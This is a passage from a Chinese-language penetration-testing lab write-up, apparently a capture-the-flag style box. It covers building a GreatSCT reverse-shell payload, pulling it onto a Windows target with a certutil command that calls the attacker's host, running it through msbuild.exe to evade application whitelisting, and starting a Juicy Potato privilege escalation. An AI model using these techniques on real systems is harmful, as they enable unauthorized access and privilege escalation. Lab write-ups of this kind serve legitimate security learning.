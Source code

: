 ![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPznbQjiaiaFTDyKEmDTfrMpviaiah3xX95gDW9icOnJyiaich3AgvI7nOMhUZ5HbSfdtDEcAeuwbECRYlGA/640?wx_fmt=png)

选择刚利用得 payload 即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPznbQjiaiaFTDyKEmDTfrMpvl2OsP9yPIIOWurhyclTXY4Sp38mPicjTQm4uicD9P4AAmE4QemJiaVD6g/640?wx_fmt=png)

这里填写反向 shell 回来指向本地 IP 即可... 然后 generate 执行产生有效载荷...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPznbQjiaiaFTDyKEmDTfrMpvgiarKgLnvJov4S5biadicSxlIEn4x1JUPC0iaReHUwu9zNleg78H9MVF0g/640?wx_fmt=png)

执行完 generate 后，直接输入 dayushell 即可..（名称）

然后会生成 shellcode... 这里直接利用 dayushell.xml 即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPznbQjiaiaFTDyKEmDTfrMpvegXX0quE8f3dCicrJKc62jvp7fhJicibQ7qWCrJ1qnG03nCzhzPGsqrZw/640?wx_fmt=png)

```
certutil.exe -urlcache -split -f http://10.10.14.11/dayushell.xml dayushell.xml
```

本地开启 80 服务上传文件，成功利用 windows 上带得 certutil 上传了 shellcode...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPznbQjiaiaFTDyKEmDTfrMpvicjsxGgTQUaRaYK0dGYu6zd2xgn5QrgBAksoHjQ6cU9FDIicjHA6gTrw/640?wx_fmt=png)

这里利用 MSF 来进行监听... 选择 https.. 端口选择和 shellcode 一致即可...

这里要利用 windows 自带得 msbuild.exe 进行白名单方式绕过执行. xml 得 shellcode 文件...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPznbQjiaiaFTDyKEmDTfrMpvzj3RAZHV23HNFmYY0LknGQ4Ly5msicl6fLVhWibNC3x4XMbibtIh0rmbg/640?wx_fmt=png)

msbuild.exe 存放的路径搜索都能知道...

开始提权...GO

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPznbQjiaiaFTDyKEmDTfrMpvhMsfR4ZvUeyZtkSfKFSh0MIiavF7bb3X9uYskS71lTdDVVCPXEtRAcw/640?wx_fmt=png)

可以看到，是可以提权的，但是利用 MSF 也无法获取反向 shell 的数据包...

不知道是 exploit 错了，还是 GreatSCT 有生成的包有问题... 这里按照思路尝试了挺久，没成功，应该是 exp 有问题... 大家看到这里的可以尝试下...

![](https://mmbiz.qpic.cn/mmbiz_gif/91VlKjK1jgxkKJILyJj2LWD0PYmzSuXEq9Fic10RiaJK5dicRJKowHM8vaibCbeoaC3hW64rtu7FrV8yJx7MkRvszw/640?wx_fmt=gif)

方法 2：

![](https://mmbiz.qpic.cn/mmbiz_gif/sh14FEsstk64OiaHia2vXhZV1ckaMlfcgPj9vItaVmmUx5waCVlhrA1UaJR1DHpkmAdw2jESWs8tSFkjllJqibYsA/640?wx_fmt=gif)

```
https://github.com/ohpe/juicy-potato
```

利用土豆进行绕过防火墙提权...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPznbQjiaiaFTDyKEmDTfrMpv0XTIlxHm9NNrBoRFFDAmcFe4XGHJIVUic59QSqkPQ5YLpPgfZX1RUkw/640?wx_fmt=png)

下载到本地...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPznbQjiaiaFTDyKEmDTfrMpv6zTzianUjenQoLSicOqX0YjOsLeSUhwzico5TyUJPtaohxgBSSloTVIbA/640?wx_fmt=png)
